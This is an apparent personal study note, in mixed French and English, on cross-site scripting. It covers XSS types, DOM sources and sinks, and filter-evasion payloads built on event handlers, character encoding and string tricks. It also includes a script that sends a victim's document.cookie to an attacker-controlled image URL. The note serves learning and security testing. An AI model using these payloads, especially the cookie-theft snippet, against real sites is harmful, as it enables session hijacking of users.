 # XSS - Cross-Site Scripting

## Types

### Reflected

L'input de l'utilisateur est envoyé au serveur puis réfléchis sur la page.

### Stored

Pareil sauf que l'input est en plus persisté.

### DOM

L'input est directement inséré dans le DOM \(donc sans passer par le serveur\).

#### Sources \(where the input goes\)

* document.url
* document.referrer
* location
* location.href
* location.search
* location.hash
* location.pathname
* ...

#### Sinks \(where the input ends up\)

* element.innerHTML\(\)
* element.outerHTML\(\)
* eval\(\)
* setTimeout\(\)
* setInterval\(\)
* document.write\(\)
* document.writeln\(\)
* ...

#### Tips & Tricks

Un tag `<script>alert();</script>` inséré via `inner.html` ne sera en fait pas executé. 

Vaut mieux passer par un `<img src="test" onerror="alert(1337)" />`, ou encore plus simple : `<svg onload="alert(1337)">`

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

### Tips

* Start by checking which characters are escaped by using them with a normal string that you can easily find in the result. Also use lists with _burp intruder_.
* Si les `<script>` ne sont pas accepté, utiliser les événements de type `onfocus`, `onload`, etc. Btw you can accumulate function in these event by separating them with `;`.
* `<sCRipt>` tag aren't case sensitive
* If the string tag is accepted but not word like "alert", you can do things like :
  * `eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))`
  * `eval("al"+"ert(1)")`
* Avec le http parameter pollution, s’il est concaténé, on peut aussi faire du xss
* C'est aussi possible de passer par du HTML5/CSS3/SVG
* [https://www.owasp.org/index.php/XSS\_Filter\_Evasion\_Cheat\_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* `javascript:alert(1337)` as url \(form action for example\)
* `data:text/html,<script>alert(0)</script>` in url
* Avec ce code

  ```javascript
  let name = (new URL(location).searchParams.get('name'))
  eval(`var = "bonjour ${name}"`)
  ```

On peut lui donner ce payload : `name="-alert(1337)-"` Mais j'ignore pourquoi les "-" font que ça marche, du coup ce que j'ai fait moi pour pas avoir d'erreur c'est : `name=";alert(1337);tmp="`

* Pour créer une string sans utiliser "" y'a 2 techniques :
  * eval du regex : `eval(/alert(1337)/.source())`
  * tostring un nombre avec une base : `17795081..toString(36)` \(j'ignore pourquoi le second `.` est obligatoire\)
* Break out of html comment : Si `<?php>` \(ou `<?>` car c'est son raccourci\) sont présent dans la réponse html, les navigateurs vont transformer ça en `<!--php-->` car ils ne veulent pas que du code serveur se retrouve accidentellement sur le client. Hors, les commentaires imbriqués n'existant pas en html, si on fait ça à l'intérieur d'un commentaire, ça va le terminer prématurément.
* https can be in all caps \(HTTPS\)
* `google.com/jsapi?callback=alert` can be used to received a function in a callback

## XSS Auditor

* Il existe sur Chrome, pas sur firefox et je sais pas pour les autres
* Il risque de bientôt disparaître car il amène des vulnérabilités et permet aux devs de moins faire attention/moins corriger leurs failles XSS
* L’auditeur permet de remarquer des injections XSS. Pour cela, il compare ce qui est passé dans l’url aux scripts de la page \(très gros résumé\).
* Du coup, si on injecte le même script qu’un existant déjà dans la page, l’auditeur va le disable, pensant qu’il vient de nous, ce qui peut nous permettre d’ensuite faire d’autre choses

## Get a cookie with that

By example by injection this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

## Source

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction [video](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)'s multiple videos
* Misc research

